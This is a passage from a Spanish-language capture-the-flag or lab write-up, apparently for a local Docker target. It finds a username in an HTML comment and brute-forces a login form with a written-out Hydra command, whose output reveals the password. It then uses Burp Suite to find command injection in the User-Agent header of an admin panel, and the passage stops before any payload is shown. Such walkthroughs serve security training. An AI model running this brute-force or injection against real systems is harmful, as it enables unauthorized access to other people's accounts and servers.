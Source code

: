 ```
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Vemos que hay un puerto `80`, en el que si entramos veremos un login, pero si inspeccionamos la pagina, veremos el siguiente comentario:

```html
<!-- d1se0  -->
```

Por lo que podemos deducir que puede ser el nombre de usuario del login, por lo que vamos a probar fuerza bruta al login con dicho usuario.

## Hydra

```shell
hydra -l d1se0 -P <WORDLIST> <IP> http-post-form "/index.php:username=^USER^&password=^PASS^&Login=Iniciar+Sesión:¡Ups\!+Las+credenciales+no+son+correctas.+Intenta+nuevamente."
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-22 11:18:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.3:80/index.php:username=^USER^&password=^PASS^&Login=Iniciar+Sesión:¡Ups!+Las+credenciales+no+son+correctas.+Intenta+nuevamente.
[80][http-post-form] host: 172.17.0.3   login: d1se0   password: amigos
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-22 11:18:46
```

Por lo que vemos sacamos las credenciales, si iniciamos sesion en la pagina, nos llevara a una especie de pagina llamada `gestionAdminPanel.php` en el que parece ser un sistema de gestion del servidor.

## Escalate user flow

### BurpSuite

Donde pone se esta procesando la solicitud, podemos deducir que que tiene que ver algo con las solicitudes que se realiza a dicha pagina.

Vamos abrir `BurpSuite` configurarlo para que escuche en el mismo puerto donde esta la pagina, echo esto, capturaremos la peticion recargando la pagina, le daremos a `Ctrl+R` para pasarlo al `Repeater` y trastear con la peticion.

Si cambiamos algunas cosas del `Head` veremos que hay una seccion de la misma en concreto en la que se puede injectar comandos, que es en el `User-Agent`.
